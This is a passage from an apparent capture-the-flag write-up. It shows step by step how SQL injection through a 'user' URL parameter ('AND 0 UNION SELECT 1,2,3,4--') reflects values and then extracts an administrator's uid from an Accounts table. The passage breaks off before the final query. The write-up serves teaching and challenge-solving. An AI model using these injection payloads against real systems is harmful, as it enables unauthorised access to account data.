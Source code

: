 The resulting query looks like this:

```sql
SELECT u.memberSince, u.clientsHelped, u.hackersHelped, u.programsContributed FROM Accounts a INNER JOIN UserInfo u ON a.uid = u.uid WHERE a.userName='' AND 0 UNION SELECT 1,2,3,4--
```

The AND 0 clause effectively nullifies any data from the initial SELECT/INNER JOIN query.  The -- at the end comments out the remainder of the query.

So the initial query looked like so:
https://ukzcouspczgmbzmx.ransommethis.net/etvdmxhpgpvdweyg/userinfo?user='AND 0--

![](/T7/Files/Pasted%20image%2020221117205745.png)

However, by doing a UNION SELECT we can replace that data with the values 1,2,3,4 and test to see if those values are reflected back into the website

The new query would appear as so:
https://ukzcouspczgmbzmx.ransommethis.net/etvdmxhpgpvdweyg/userinfo?user='AND 0 UNION SELECT 1,2,3,4--

![](/T7/Files/Pasted%20image%2020221117210253.png)

This worked!  Now lets try to target the UID of the one known admind that we have.  Instead of using 4, lets replace this with a query into the accounts table:

```sql
SELECT 1,2,3,uid FROM Accounts WHERE userName = 'ProfuseHunter'--
```
This changes the entire query to look like so:

